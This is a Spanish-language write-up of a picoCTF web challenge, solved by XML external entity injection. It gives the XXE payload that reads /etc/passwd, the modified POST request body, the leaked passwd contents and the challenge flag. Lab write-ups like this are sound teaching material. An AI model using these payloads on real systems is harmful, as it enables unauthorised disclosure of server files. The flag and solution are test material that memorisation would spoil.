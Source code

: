### Descripción
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?[Web Portal](http://saturn.picoctf.net:59295/)

Hints:
1. XML external entity Injection

### Solución
Inspeccionamos la página al pulsar en details y nos vamos a Network para ver como es el método POST. Le damos a resend y buscamos la inyección para encontrar la bandera:

```
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```

Ahora sustituimos la inyección en el body de la petición:
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]><data><ID>&example;</ID></data>
```

Y la enviamos, por lo que ahora nos vamos al data de la nueva petición: http://saturn.picoctf.net:50322/data y nos muestra la bandera:
```
Invalid ID: root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin flask:x:999:999::/app:/bin/sh picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}
```

Flag:
picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}

### Notas adicionales


### Referencias
https://gitee.com/scriptkiddies/hacktricks/blob/master/pentesting-web/xxe-xee-xml-external-entity.md
